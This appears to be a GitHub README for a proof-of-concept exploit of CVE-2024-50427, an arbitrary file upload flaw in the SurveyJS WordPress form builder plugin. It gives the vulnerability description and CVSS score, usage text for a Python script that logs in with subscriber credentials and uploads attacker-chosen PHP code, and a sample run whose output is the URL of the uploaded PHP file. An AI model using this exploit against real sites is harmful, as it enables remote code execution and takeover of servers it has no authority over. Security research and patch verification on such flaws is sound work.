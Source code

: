 # CVE-2024-50427
SurveyJS: Drag &amp; Drop WordPress Form Builder &lt;= 1.9.136 - Authenticated (Subscriber+) Arbitrary File Upload

# Description:
The SurveyJS: Drag & Drop WordPress Form Builder to create, style and embed multiple forms of any complexity plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in all versions up to, and including, 1.9.136. This makes it possible for authenticated attackers, with Subscriber-level access and above, to upload arbitrary files on the affected site's server which may make remote code execution possible.


```
Published: 2024-10-24 00:00:00
CVE: CVE-2024-50427
CVSS: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 8.8
Slugs: surveyjs
```

How to use
---

```
usage: CVE-2024-50427.py [-h] [--code CODE] url username password

Upload a PHP file to a WordPress site.

positional arguments:
  url          The URL of the WordPress site (e.g., http://example.com)
  username     Your WordPress username
  password     Your WordPress password

options:
  -h, --help   show this help message and exit
  --code CODE  PHP code to execute
```

POC
---

```
$ python3 CVE-2024-50427.py http://kubernetes.docker.internal user@example.com user --code "phpinfo();"
Login successful.
File uploaded successfully.
http://kubernetes.docker.internal/wp-content/uploads/surveyjs/158718452672e02bd1d7212.25114025.php
```
